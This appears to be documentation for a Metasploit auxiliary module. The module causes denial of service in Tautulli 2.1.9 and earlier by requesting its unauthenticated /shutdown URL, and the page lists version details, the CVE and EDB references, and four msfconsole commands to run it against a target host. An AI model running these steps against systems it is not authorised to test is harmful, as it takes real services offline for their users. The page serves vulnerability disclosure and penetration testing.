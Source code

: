 ## Overview
Tautulli versions 2.1.9 and prior are vulnerable to denial of service via the /shutdown URL.

## Vulnerable Application :

```
Date: 2018-12-17 
Exploit Author: Ismail Tasdelen
Vendor Homepage: https://tautulli.com/
Software : https://github.com/Tautulli/Tautulli
Product Version: v2.1.9
Platform: Windows 10 (10.0.18362)
Python Version: 2.7.11 (v2.7.11:6d1b6a68f775, Dec 5 2015, 20:40:30) [MSC v.1500 64 bit (AMD64)]
```

### Verification Steps :

```
List the steps needed to make sure this thing works

1. Start ```msfconsole```
2. ```use auxiliary/dos/http/tautulli_shutdown_exec```
3. ```set RHOSTS XXX.XXX.XXX.XXX```
4. ```run```
```

### References :

CVE:2019-19833
EDB:47785
